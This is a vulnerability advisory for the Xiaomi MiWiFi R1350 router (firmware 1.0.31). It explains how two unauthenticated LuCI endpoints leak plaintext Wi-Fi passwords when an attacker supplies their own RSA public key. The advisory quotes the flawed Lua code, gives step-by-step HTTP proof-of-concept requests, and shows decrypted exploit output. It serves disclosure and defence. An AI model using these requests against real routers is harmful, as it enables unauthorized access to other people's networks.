




# Xiaomi MiWiFi R1350 Router

- Vendor: Xiaomi
- Product: Xiaomi AIoT Router R1350 (AC1200)
- Firmware Version: 1.0.31 (miwifi_r1350_firmware_7449d_1.0.31.bin, QSDK / OpenWrt, MIPS32 big-endian)
- Vulnerability Type: Unauthenticated Sensitive Information Disclosure (CWE-200)

## Overview

An unauthenticated information disclosure vulnerability in the Xiaomi MiWiFi R1350 (firmware 1.0.31) allows a LAN attacker to retrieve the **plaintext Wi-Fi passwords (2.4G and 5G SSIDs and keys)** of the router without any authentication. Two endpoints cooperate (both registered with authorization flag `0x09` = noauth + noinit):

```
GET /cgi-bin/luci/api/misystem/get_wifi_pwd_url?rsa_pubkey=<attacker-controlled public key>
GET /cgi-bin/luci/api/misystem/get_wifi_pwd?token=<device UUID>
```

The intended flow is Xiaomi's IoT provisioning handshake (a smart device asks the router for Wi-Fi credentials encrypted with the device's own public key). Because *anyone* can supply *any* public key — including one whose private key the attacker owns — the confidentiality of the credentials is void: the attacker encrypts-to-self and decrypts locally.

## Vulnerability Details

Component: `/usr/lib/lua/luci/controller/api/misystem.lua` (1.0.31)

`getWifiPwdUrl()` (line 4125+):



```lua
local rsa_pub_key = LuciHttp.formvalue("rsa_pubkey")   -- attacker-controlled, no validation
write_txt(CACHE_PUBKEY_PATH, rsa_pub_key)              -- /tmp/iot_pubkey_cache
local timestamp = os.time()
write_txt(CACHE_TIME_PATH, timestamp)                  -- 300s validity window
local token = read_txt(UUID_PATH)                      -- /proc/sys/kernel/random/uuid (device UUID)
write_txt(CACHE_TOKEN_PATH, token)
local url = string.format('http://%s/cgi-bin/luci/api/misystem/get_wifi_pwd?token=%s', lanip, token)
local url_new = lua_crypto.lua_rsa_pubkey_encrypt(url, rsa_pub_key)  -- encrypted with ATTACKER key
result["url"] = XQCryptoUtil.binaryBase64Enc(url_new)
```

`getWifiPwd()` (line 4230+):



```lua
local token = LuciHttp.formvalue("token")
local token_local = read_txt(CACHE_TOKEN_PATH)         -- the fixed device UUID
if token_local ~= nil and token == token_local then     -- only equality with a UUID the attacker just learned
    -- 300s timestamp check against the time the ATTACKER's own Step-1 request set
...
local pwd_origin = json.encode(iot_info)               -- {2gssid, 2gpwd, 5gssid, 5gpwd} in PLAINTEXT
local rsa_pub_key = read_txt(CACHE_PUBKEY_PATH)        -- the ATTACKER's public key
local pwd_new = lua_crypto.lua_rsa_pubkey_encrypt(pwd_origin, rsa_pub_key)
result["info"] = XQCryptoUtil.binaryBase64Enc(pwd_new)
```

Design flaws:

1. The public key is fully attacker-controlled and unauthenticated; encryption therefore provides no confidentiality against the requesting party.
2. The `token` is not a secret: it is the device UUID (`/proc/sys/kernel/random/uuid`) and it is handed to the attacker (RSA-encrypted under their own key) by `get_wifi_pwd_url` itself. The 300-second window is also armed by the attacker's own request.
3. `read_txt()` reads a single line, and `librsa.so` (mbedTLS `pk_parse_public_key` via `public_encrypt_keybuf`) accepts a **single-line base64 (SPKI DER) public key** — exactly what an attacker supplies.

## Proof of Concept

```http
GET /cgi-bin/luci/api/misystem/get_wifi_pwd_url?rsa_pubkey=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA... HTTP/1.1
Host: 192.168.31.1

```

Response (`url` = base64(RSA_<attacker-pubkey>(url containing the token))):

```json
{"url":"PNw08FvhHDk4+/TkIhzrs2K3x4LfOTluzKy2wBpRPB55B0nLA72YKxPlaRhGVQDdM...","code":0}
```

Decrypted with the attacker's private key:

```
http://192.168.31.1/cgi-bin/luci/api/misystem/get_wifi_pwd?token=e95f2a41-7c3b-4d58-9a1f-3b2c8d61f7a4
```

Step 2:

```http
GET /cgi-bin/luci/api/misystem/get_wifi_pwd?token=e95f2a41-7c3b-4d58-9a1f-3b2c8d61f7a4 HTTP/1.1
Host: 192.168.31.1

```

Response (`info` = base64(RSA_<attacker-pubkey>(json))):

```json
{"info":"r67C5hYqAuxfycfvVawut4ecungrVe44YSWeNOufxr8Gb92yXFHi84I81aLfcdO...","code":0}
```

## Impact

A completely unauthenticated LAN attacker obtains both Wi-Fi passwords in plaintext and joins the network — typically the exact trust boundary the router is supposed to enforce. This also feeds the unauthenticated RCE in `sns_init` (any DHCP client can reach it) and other authenticated attack surface after joining.

## Reproduction Result





Dynamically verified against the firmware emulated with qemu-mips + chroot (original nginx → fcgi-cgi → LuCI stack). Automated PoC (`exp_wifi_pwd_leak.py`, generates a one-time RSA-2048 keypair, performs both requests, decrypts both blobs):

```
$ python exp_wifi_pwd_leak.py 192.168.1.5
[*] Step1 GET get_wifi_pwd_url
[+] Step1 解密 url: http://192.168.31.1/cgi-bin/luci/api/misystem/get_wifi_pwd?token=e95f2a41-...
[+] token = e95f2a41-7c3b-4d58-9a1f-3b2c8d61f7a4 (设备 UUID, 300s 内有效)
[*] Step2 GET get_wifi_pwd
[+] ================= WiFi 凭证 (未授权获取) =================
    5gpwd    = PocSecret#5G
    2gpwd    = PocSecret#2G
    5gssid   = Xiaomi_POC_5G
    2gssid   = Xiaomi_POC_2G
```
